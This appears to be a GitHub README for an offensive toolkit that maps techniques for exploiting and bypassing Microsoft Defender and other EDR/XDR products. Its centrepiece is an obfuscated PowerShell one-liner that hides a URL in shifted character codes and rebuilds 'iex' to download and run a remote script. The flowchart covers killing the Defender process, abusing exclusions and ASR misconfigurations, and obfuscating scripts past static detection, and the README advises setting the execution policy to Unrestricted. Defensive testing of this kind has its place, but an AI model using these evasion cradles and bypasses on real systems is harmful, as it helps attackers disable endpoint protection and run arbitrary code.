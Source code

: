 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |SharpExclusionFinder.exe| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```
* ps. if unable to run a script on the current system, an execution policy has to be set.
  ```
  Set-ExecutionPolicy Unrestricted -Scope CurrentUser
  ```


## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

### officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)
![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

### wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html





